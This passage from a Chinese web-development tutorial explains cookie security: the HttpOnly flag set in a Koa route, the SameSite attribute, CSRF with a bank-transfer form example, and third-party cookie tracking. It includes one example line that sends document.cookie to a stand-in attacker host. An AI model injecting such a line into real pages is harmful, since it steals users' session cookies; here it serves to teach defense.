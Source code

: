 ```js
router.get('/detail', async ctx => {
  // ctx.set('Set-Cookie', 'key1=666; Max-Age=3600;path=/')
  ctx.set('Set-Cookie', 'key1=888; path=/detail;')
  ctx.set('Set-Cookie', 'key1=888; path=/detail;HttpOnly') // 无法通过脚本拿到
  await ctx.render('detail')
})
```
<enlarge><img src="./imgs/httponly.png"/></enlarge>

如果设置了一个 `Cookie` 的`HttpOnly`属性，下面代码就不会读到该 `Cookie`。
```js
// 跨站点载入一个恶意脚本，能够将当前网页的 Cookie 发往第三方服务器
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

## 18、SameSite

`Chrome 51` 开始，浏览器的 `Cookie` 新增加了一个`SameSite`属性，用来防止 `CSRF` 攻击和用户追踪。

- **`CSRF`跨站请求伪造(cross-site request forgery)**：`Cookie`往往用来存储用户的身份信息，恶意网站可以设法伪造带有正确 `Cookie` 的 `HTTP` 请求，这就是 **CSRF 攻击**。

举例来说，用户登陆了银行网站`your-bank.com`，银行服务器发来了一个 `Cookie`。用户后来又访问了恶意网站`malicious.com`，上面有一个表单。
```html
<form action="your-bank.com/transfer" method="POST">
  ...
</form>
```
用户一旦被诱骗发送这个表单，银行网站就会收到带有正确 `Cookie` 的请求。为了防止这种攻击，表单一般都带有一个随机 `token`，告诉服务器这是真实请求。
```js
<form action="your-bank.com/transfer" method="POST">
  <input type="hidden" name="token" value="dad3weg34">
  ...
</form>
```

## 19、第三方cookie
第三方网站引导发出的 `Cookie`，就称为第三方 `Cookie`。它除了用于 `CSRF` 攻击，还可以用于用户追踪。比如，`Facebook` 在第三方网站插入一张看不见的图片。
```js
// 浏览器加载上面代码时，就会向 Facebook 发出带有 Cookie 的请求，
// 从而 Facebook 就会知道你是谁，访问了什么网站。
<img src="facebook.com" style="visibility:hidden;">
```
